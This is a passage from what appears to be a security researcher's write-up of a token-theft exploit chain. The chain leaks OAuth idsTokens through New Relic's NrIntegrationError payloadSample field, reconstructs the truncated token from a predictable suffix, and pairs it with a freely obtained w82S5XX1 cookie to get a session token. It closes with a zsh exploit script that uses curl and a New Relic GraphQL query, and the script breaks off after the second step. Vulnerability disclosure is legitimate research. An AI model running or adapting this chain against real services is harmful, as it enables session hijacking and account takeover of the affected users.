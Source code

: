 When I saw this, I was thrilled because I remembered this line of the docs:
> All successful submissions receive a 200 response, regardless of any data errors that may exist within the payload. The response includes a uuid, which is a unique ID created for each request. The uuid also appears in any error events created for the request.


Further down in [that documentation](https://docs.newrelic.com/docs/data-apis/ingest-apis/event-api/introduction-event-api/) we see a way to query malformed data being passed into New Relic:
> The NrIntegrationError event allows you to query and set alerts on custom data being sent to your New Relic account. Recommendation: To get alerts for parsing errors, create a NRQL alert condition for NrIntegrationError. Use this example NRQL query:
```sql
SELECT message FROM NrIntegrationError WHERE newRelicFeature = 'Event API' AND category = 'EventApiException'
```

After reading the docs thoroughly, I identified the following query which would allow me to retrieve the first 100 characters of the JSON data submited through this endpoint:
```sql
SELECT payloadSample FROM NrIntegrationError LIMIT 1
```
Which would return something like:
<img width="1717" height="297" alt="NewRelicPic1" src="https://gist.github.com/user-attachments/assets/bcb7521d-3c59-4da8-b1e7-bb4d5c92d905" />


and this would return the data leaked via the POST request. 

Unfortunately, the API only returns the first 100 characters of the payload. When I saw this, I was gutted, because the `idsToken` used to swap for the OAuth code was very long. 

However, this was one of those perfect "stars align" scenarios. 3 characters before the New Relic cut off, the rest of the string becomes predictable. As a result, I was still able to exploit this by appending:
```
R0eXBlAANDVFMAAlMxAAIwMw..*
```
or 
```
R0eXBlAANDVFMAAlMxAAIwMQ..*
```

This completed the leak chain. However, to swap this token for the true Oauth Code, I still needed the matching `w82S5XX1` cookie which was set when this `IdsToken` was generated. Luckily for me, this was impromperly implemented and any `w82S5XX1` code would work, so by simply hitting:
```bash
echo "[1] Fetching w82S5XX1..."
w8=$(curl -s "https://auth-data.redacted.com/submit"  -i | grep w82 | cut -f 2 -d "=" | cut -f 1 -d ";")
echo "Got w82S5XX1: $w8"
```
I was able to retrieve a `w82S5XX1` token which could be redeemed with the `idsToken` to get the coveted session token.


Here is the final exploit:
```bash
#!/usr/bin/zsh

echo "[1] Fetching w82S5XX1..."
w8=$(curl -s "https://auth-data.redacted.com/submit"  -i | grep w82 | cut -f 2 -d "=" | cut -f 1 -d ";")
echo "Got w82S5XX1: $w8"

echo "[2] Fetching latest leaked token..."
token=$(curl -s -X POST 'https://api.eu.newrelic.com/graphql' \
     -H 'Content-Type: application/json' \
     -H 'Api-Key: NRAK-SEX1I026RXXXXXXXXXXXXXXXX' \
     --data-raw '{"query":"{ actor { account(id: 1337) { nrql(query: \"SELECT payloadSample FROM NrIntegrationError LIMIT 1\") { results } } } }"}' |
	 cut -f 17 -d '"')
```